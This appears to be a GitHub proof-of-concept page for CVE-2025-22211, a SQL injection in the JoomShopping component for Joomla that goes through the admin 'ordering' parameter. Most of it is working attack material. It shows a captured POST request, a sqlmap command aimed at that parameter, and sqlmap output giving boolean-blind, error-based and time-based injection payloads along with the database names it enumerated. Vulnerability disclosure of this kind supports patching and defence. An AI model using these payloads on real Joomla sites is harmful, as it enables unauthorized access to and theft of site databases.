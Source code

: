 # CVE-2025-22211: SQL injection in JoomShopping for Joomla!

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-22211

**JoomShopping:** https://extensions.joomla.org/extension/joomshopping/

## Introduction
A SQL injection vulnerability in the JoomShopping component versions 1.0.0-1.4.3 for Joomla allows authenticated attackers (administrator) to execute arbitrary SQL commands in the country management area in the backend via the 'ordering' parameter.

## POC
To exploit this vulnerability go to 'JoomShopping >> Options >> Country list >> Country >> Afganistan' and save the save request to a file (req.txt).

![Alt text](5.png)

**HTTP Request:**
```
POST /administrator/index.php?option=com_jshopping&controller=countries HTTP/1.1
Host: localhost:8080
Content-Length: 117
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="133", "Not(A:Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/administrator/index.php?option=com_jshopping&controller=countries&task=edit&country_id=1
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; 89425edf8ba7e3f24f10ecefaaf7057a=fb7c446dbbc7dacdd059be3a33f033cc
Connection: keep-alive

country_publish=1&ordering=1&name_en-GB=Afghanistan&country_code=AFG&country_code_2=AF&task=apply&edit=1&country_id=1
```

**Exploit:**
```
ubuntu@host:~$ python3 sqlmap.py -r ~/req.txt --batch --dbs --dbms=mysql -p ordering
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.1.2#dev}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org


---
Parameter: ordering (POST)
    Type: boolean-based blind
    Title: MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: country_publish=1&ordering=1' AND EXTRACTVALUE(8366,CASE WHEN (8366=8366) THEN 8366 ELSE 0x3A END)-- iddH&name_en-GB=Afghanistan&country_code=AFG&country_code_2=AF&task=apply&edit=1&country_id=1

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: country_publish=1&ordering=1' AND GTID_SUBSET(CONCAT(0x716a7a7671,(SELECT (ELT(4079=4079,1))),0x7178716271),4079)-- dRyK&name_en-GB=Afghanistan&country_code=AFG&country_code_2=AF&task=apply&edit=1&country_id=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: country_publish=1&ordering=1' AND (SELECT 8740 FROM (SELECT(SLEEP(5)))QDfY)-- knHD&name_en-GB=Afghanistan&country_code=AFG&country_code_2=AF&task=apply&edit=1&country_id=1
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
